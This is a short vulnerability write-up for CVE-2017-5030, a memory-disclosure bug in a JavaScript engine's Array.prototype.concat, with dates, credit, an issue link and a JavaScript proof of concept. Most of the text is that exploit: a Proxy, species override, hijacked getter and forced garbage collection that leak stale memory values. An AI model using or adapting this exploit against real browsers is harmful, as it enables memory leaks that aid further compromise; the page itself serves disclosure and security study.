 # CVE-2017-5030

- Report: Jan 2017
- Fix: Mar 2017
- Credit: Brendon Tiszka

## PoC

```javascript
var p = new Proxy([], {});
var b_dp = Object.prototype.defineProperty;

class MyArray extends Array {
    static get [Symbol.species]() {
        return function() { return p; }
    }; // custom constructor which returns a proxy object
}

var w = new MyArray(100);
w[1] = 0.1;
w[2] = 0.1;

function gc() {
    for (var i = 0; i < 0x100000; ++i) {
        var a = new String();
    }
}

function evil_callback() {
    w.length = 1; // shorten the array so the backstore pointer is relocated
    gc();         // force gc to move the array's elements backstore
    return b_dp;
}

Object.prototype.__defineGetter__("defineProperty", evil_callback);

var c = Array.prototype.concat.call(w);

for (var i = 0; i < 20; i++) { // however many values you want to leak
    console.log(c[i]);
}
```

## Reference

- [Issue](https://crbug.com/682194)
